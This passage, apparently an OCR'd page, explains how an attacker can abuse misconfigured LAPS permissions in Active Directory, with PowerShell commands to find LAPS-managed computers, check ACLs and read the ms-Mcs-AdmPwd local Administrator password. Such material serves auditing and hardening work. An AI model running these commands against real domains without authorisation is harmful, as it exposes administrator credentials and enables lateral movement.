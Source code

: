However, if not properly configured or if certain permissions are misconfigured, LAPS can be exploited by an attacker to gain access to these local Administrator passwords. Here’s how this could be done:

### How LAPS Works

1. **Password Storage**:
   - LAPS stores the local Administrator password in a specific attribute (`ms-Mcs-AdmPwd`) of the computer account in AD.
   - The password is encrypted and protected by AD permissions, which are typically restricted to certain groups (e.g., Domain Admins) or specific users.

2. **Permissions**:
   - By default, only users or groups with the appropriate permissions can read the `ms-Mcs-AdmPwd` attribute.
   - If permissions are misconfigured, unauthorized users may gain access to these passwords.

### Exploiting LAPS

To exploit LAPS and retrieve local Administrator passwords, an attacker would generally follow these steps:

#### 1. **Identify LAPS-Managed Machines**

   - **Using LDAP Queries**: An attacker with sufficient access could use LDAP queries to identify machines that have the `ms-Mcs-AdmPwd` attribute set. Tools like `PowerView` can be used to perform such queries:
     ```powershell
     Get-ADComputer -Filter {ms-Mcs-AdmPwd -like "*"} -Property Name,ms-Mcs-AdmPwd
     ```

   - **Using PowerShell**: You can also use a PowerShell command to list computers managed by LAPS:
     ```powershell
     Get-ADComputer -Filter {ms-Mcs-AdmPwdExpirationTime -like "*"} -Property Name,ms-Mcs-AdmPwdExpirationTime
     ```

#### 2. **Check Permissions on `ms-Mcs-AdmPwd` Attribute**

   - **Using PowerShell**: Determine who has read permissions on the `ms-Mcs-AdmPwd` attribute:
     ```powershell
     Get-ACL "AD:\CN=Computers,DC=domain,DC=com" | Format-List
     ```

   - **Review Permissions**: Look for any misconfigured permissions that allow unauthorized users or groups to read the `ms-Mcs-AdmPwd` attribute.

#### 3. **Retrieve the LAPS Password**

   - **Using PowerShell**: If you have sufficient permissions, you can retrieve the LAPS password using the following command:
     ```powershell
     Get-ADComputer -Identity "ComputerName" -Property "ms-Mcs-AdmPwd"
     ```
     This will display the current local Administrator password for the specified computer.
